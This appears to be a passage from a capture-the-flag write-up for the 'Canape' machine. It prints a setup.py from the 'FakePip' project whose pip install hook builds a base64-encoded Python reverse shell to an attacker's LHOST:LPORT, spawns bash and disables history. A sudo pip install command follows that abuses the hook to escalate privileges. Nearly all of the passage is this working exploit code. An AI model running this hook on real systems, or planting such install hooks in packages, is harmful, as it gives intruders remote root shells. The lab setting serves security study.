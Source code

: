 ```python
    reverse_shell = 'python -c "import os; import pty; import socket; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\'{LHOST}\', {LPORT})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"'.format(LHOST=LHOST,LPORT=LPORT)
    encoded = base64.b64encode(reverse_shell)
    os.system('echo %s|base64 -d|bash' % encoded)

setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      url='https://github.com/0x00-0x00/fakepip',
      author='zc00l',
      author_email='andre.marques@esecurity.com.br',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': CustomInstall})
```

**sudo /usr/bin/pip install . --upgrade --force-reinstall**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2014.png)
